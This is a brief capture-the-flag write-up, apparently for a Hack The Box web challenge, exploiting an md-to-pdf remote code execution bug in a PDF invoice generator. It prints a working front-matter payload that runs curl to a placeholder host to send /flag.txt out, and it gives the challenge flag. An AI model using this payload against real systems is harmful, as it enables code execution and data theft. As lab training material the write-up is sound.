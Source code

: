 ![image](https://user-images.githubusercontent.com/80063008/169332230-ab4edbcc-702b-4cba-ad90-647268c4c04e.png)

We get on a page where we can create a PDF invoice.

![image](https://user-images.githubusercontent.com/80063008/169332707-6be56ec5-53fb-45f6-873c-cf8056c5e026.png)

Checking the provided source code, we notice how these PDFs are generated. They are using md-to-pdf that is vulnerable to RCE.

![image](https://user-images.githubusercontent.com/80063008/169332943-38599176-89cf-443c-bbdc-65ced4e8fd74.png)

We can find the required payload here:
https://github.com/simonhaenisch/md-to-pdf/issues/99

```javascript
---js\n((require("child_process")).execSync(\"curl http://yourip/`cat /flag.txt|base64 -w0`\"))\n---RCE
```
![image](https://user-images.githubusercontent.com/80063008/169334413-3cc0dea8-d5d7-4294-854f-145ca10e4ff6.png)

And we get our flag.  
![image](https://user-images.githubusercontent.com/80063008/169335540-3e7d420e-bebf-479a-bf8e-e76148c8d477.png)
![image](https://user-images.githubusercontent.com/80063008/169335045-a7298c78-d263-4e82-bb7d-461b5484ba5a.png)

HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
